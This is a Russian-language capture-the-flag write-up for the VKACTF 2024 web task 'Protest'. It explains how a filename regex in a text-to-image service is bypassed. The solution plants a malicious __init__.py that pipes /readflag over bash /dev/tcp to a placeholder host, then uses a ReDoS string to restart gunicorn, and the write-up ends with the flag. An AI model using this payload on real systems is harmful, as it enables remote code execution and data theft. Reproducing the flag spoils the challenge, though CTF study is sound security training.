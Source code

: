 ## Protest

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2024 | Protest  | Web | Сложно |

  
### Описание


> Автор: [ EGM ]
>
> Протесты в городе обычное дело, нужно их решать! Бери молоток и беги к рабочим на стоянку!


### Решение

1. Сервис позволяет переводить текстовые файлы в картинки, но имя файла проверяется по регулярке.
```
def check_filename(checked_file):
    random_uuid = str(uuid.uuid4())
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', checked_file)
    safe_filename = random_uuid if res is None else checked_file
    return safe_filename
```

2. Из скрипта ```run.sh``` ,понимаем, что сервер поднимается с помощью ```gunicorn``` сервера.

3. Использем при загрузке файл ```__init__.py``` с нагрузкой которая отправит файл на свой сервер
```
"__import__('os').system('bash -c "/readflag>/dev/tcp/host/port"')"
```

5. Необходимо перегрузить ```gunicorn```, чтобы выполнился новый ```__init__.py``` файл. Воспользуемся redos на 
```
r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$'
aaaaaaaaaaaaaaaaa!
```
5. Сервер перезагрузится с новым ```__init__.py``` файлом и отправит флаг на ваш сервер. 

### Эксплоит
[exploit.py](../give/ez_exploit.py)

### Флаг

```
vka{6Un1p0rn_0r_Pun1c0rn}
```
